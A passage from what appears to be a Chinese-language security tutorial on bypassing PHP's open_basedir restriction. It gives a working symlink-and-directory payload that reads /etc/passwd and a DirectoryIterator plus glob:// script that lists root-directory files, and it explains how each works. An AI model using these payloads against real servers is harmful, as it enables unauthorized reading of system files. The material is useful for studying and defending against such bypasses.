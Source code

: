 ```bash
```

| 参数   | 描述               |
| ------ | ------------------ |
| target | 必需。连接的目标。 |
| link   | 必需。连接的名称。 |

当然一般情况下这个target是受限于open_basedir的。

先给出payload，原理在后面说明，这里需要跨几层目录就需要创建几层目录：

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","7ea");
symlink("7ea/../../../../etc/passwd","exp");
unlink("7ea");
mkdir("7ea");
?>
```

访问该PHP文件后，后台便生成了两个目录和一个名为exp的符号链接：

在Web中我们直接访问exp即可读取到目标文件：

原理就是：创建一个链接文件7ea，用相对路径指向A/B/C/D，再创建一个链接文件exp指向7ea/../../../../etc/passwd。其实指向的就是A/B/C/D/../../../../etc/passwd，其实就是/etc/passwd。这时候删除7ea，再创建一个7ea目录，但exp还是指向7ea/../../../etc/passwd，所以就成功跨到/etc/passwd了

### glob://伪协议

只是用glob://伪协议是无法直接绕过的，它需要结合其他函数组合利用，主要有以下两种利用方式，局限性在于它们都只能列出根目录下和open_basedir指定的目录下的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。

#### 方式1——DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口。

DirectoryIterator与glob://结合将无视open_basedir，列举出根目录下的文件：

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

输入`glob:///*`即可列出根目录下的文件，但是会发现只能列根目录和open_basedir指定的目录的文件

#### 方式2——opendir()+readdir()+glob://

opendir()函数为打开目录句柄，readdir()函数为从目录句柄中读取条目。

这里结合两个函数来列举根目录中的文件：

```php
```
